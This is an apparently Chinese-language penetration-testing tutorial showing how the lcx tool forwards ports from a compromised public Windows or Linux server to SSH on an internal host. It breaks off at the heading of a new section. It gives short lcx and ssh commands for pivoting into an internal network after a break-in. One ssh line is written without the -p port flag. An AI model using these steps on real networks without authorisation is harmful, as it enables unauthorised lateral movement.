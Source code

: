 ![](https://mmbiz.qpic.cn/mmbiz_png/rSyd2cclv2fU1ic6ZLeymY4EuV3dKxI3kB3wrnF46nicicxVyb2iau31yDakOY7fiaibrQqFpe2p7clxRE9Vzq0G19DA/640?wx_fmt=png)

![](https://mmbiz.qpic.cn/mmbiz_gif/7QRTvkK2qC7z9w4dqqVqwbdB8BQeP3seqRYCqXRtsWnibp6j9uhtPxjHFicRt2p6bO9zJnVo1EwE8fmjyY9ibqQ4Q/640?wx_fmt=gif)

### LCX 实现 SSH 到内网主机 (公网服务器是 Windows)

现在我们有这么一个环境，我们获得了公网服务器的权限，并且通过公网服务器进一步的内网渗透，得到了内网主机的权限。拓扑图如下。

![](https://mmbiz.qpic.cn/mmbiz_png/rSyd2cclv2fU1ic6ZLeymY4EuV3dKxI3kYByYyxHelFmuUiaD5kcTD4LCIndegkUZtPEPcic6TUAX23bUNayPL6wQ/640?wx_fmt=png)

于是，我们还可以利用 lcx 来进行 22 端口的转发。

在公网 windows 服务器上的操作

```
lcx.exe -tran 2222 192.168.10.129 22  #意思就是将本地2222端口转发给192.168.10.129主机的22号端口
```

‍

![](https://mmbiz.qpic.cn/mmbiz_png/rSyd2cclv2fU1ic6ZLeymY4EuV3dKxI3kTWnqLoBSYd6IjhYrO49fMZYUEHhkF1c5tOfVDqiavfGufcBAcFym4NA/640?wx_fmt=png)

所以，我们 ssh 连接到公网服务器的 2222 端口即可

![](https://mmbiz.qpic.cn/mmbiz_png/rSyd2cclv2fU1ic6ZLeymY4EuV3dKxI3kGuANOzeqccklckGWMvIB5pP5qc5N65GkaZ02yV1f0hnhDqPe33QJrQ/640?wx_fmt=png)

![](https://mmbiz.qpic.cn/mmbiz_gif/7QRTvkK2qC7z9w4dqqVqwbdB8BQeP3seqRYCqXRtsWnibp6j9uhtPxjHFicRt2p6bO9zJnVo1EwE8fmjyY9ibqQ4Q/640?wx_fmt=gif)

### LCX 实现 SSH 到内网主机 (公网服务器是 Linux)

![](https://mmbiz.qpic.cn/mmbiz_png/rSyd2cclv2fU1ic6ZLeymY4EuV3dKxI3kkX5tjWGStL2vw0FC84B5fiaxSk45msWdKUx8wzXek5VqQ1ClSBZyshQ/640?wx_fmt=png)

首先，在 VPS 上进行下面操作。监听 2222 的流量，将其转发给 22222 端口。相当于正向代理

```
./lcx -m 2 -p1 22222 -h2 127.0.0.1 -p2 2222  #将本地2222端口的流量给本地的22222端口
```

![](https://mmbiz.qpic.cn/mmbiz_png/rSyd2cclv2fU1ic6ZLeymY4EuV3dKxI3kqOhpSmMd1FRT81anhZDBtsPLTzVVJlE7xjMibyibekxc2mJ8qmw6rkoA/640?wx_fmt=png)

我们连接 VPS 的 2222 端口，就相当于连接了内网主机的 22 端口。

```
ssh root@114.118.80.138 2222  #连接到114.118.80.138的2222端口
```

![](https://mmbiz.qpic.cn/mmbiz_png/rSyd2cclv2fU1ic6ZLeymY4EuV3dKxI3kb3J9SHSaP1ZVCpicjEpn2M8bCHvq7CLicCqYZbODfGVwB4HM3vGXN3sg/640?wx_fmt=png)

![](https://mmbiz.qpic.cn/mmbiz_gif/7QRTvkK2qC7z9w4dqqVqwbdB8BQeP3seqRYCqXRtsWnibp6j9uhtPxjHFicRt2p6bO9zJnVo1EwE8fmjyY9ibqQ4Q/640?wx_fmt=gif)

### LCX 实现 3389 到内网主机 (公网服务器是 Windows)

现在我们有这么一个环境，我们获得了公网 Windows 服务器的权限，并且通过公网服务器进一步的内网渗透，得到了内网 Linux 主机的权限。拓扑图如下。我们现在想 SSH 到内网 Linux 主机。
